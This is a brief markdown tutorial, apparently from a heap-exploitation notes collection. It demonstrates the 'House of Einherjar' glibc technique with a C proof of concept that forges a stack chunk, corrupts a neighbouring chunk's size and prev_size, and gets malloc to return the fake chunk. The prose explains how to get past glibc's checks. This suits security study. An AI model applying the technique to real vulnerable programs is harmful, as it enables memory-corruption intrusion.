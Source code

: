 # House of Einherjar
> LongChampion, 21/03/2020

Let see how to *hijack* `malloc` return a fake chunk.
```
#include <stdlib.h>

struct CHUNK
{
    long long pre_size, size;
    struct CHUNK *fd, *bk, *nextsize_fd, *nextsize_bk;
};

int main()
{
    void *a = malloc(0x100 - 8);
    void *b = malloc(0x100 - 8);

    struct CHUNK Fake;
    Fake.fd = &Fake;
    Fake.bk = &Fake;
    Fake.nextsize_fd = &Fake;
    Fake.nextsize_bk = &Fake;

    struct CHUNK *Header = (struct CHUNK *) (b - 0x10);
    Header->size &= ~0xff;
    Header->pre_size = (long long) &Header - (long long) &Fake;
    Fake.size = Header->pre_size;

    free(b);
    void *STACK = malloc(0x100 - 8);
}
```
First, we need to create a fake chunk on stack. Because we will set size of this chunk to a very large value, struct `CHUNK` now have two additional pointer, `nextsize_fd` and `nextsize_bk`. Their functionalities are same as `fd` and `bk` pointer, btw. To bypass security checking, we simply set all four pointer point to ... the fake chunk itself. Don't be smile, it works in practice!  
Then, assume we have ability to change `pre_size` and `size` of chunk `b`. The least significant byte of `b`'s size is set to 0x00, this will (almost all time) reduce the size of chunk `b` and clear `PREV_INUSE` flag of chunk `b` as well.  
Next, `pre_size` of chunk `b` and `size` of fake chunk are set to a value which equal to the distance between two chunks. Now if we free chunk `b`, **GLIBC** will *think* that our fake chunk is the previous chunk of `b`, and because we have cleared `PREV_INUSE` flag of `b`, **GLIBC** will consolidate them together and puts the merged chunk into unsorted_bin.  
The next `malloc` call with suitable request size will return out fake chunk as we expect.
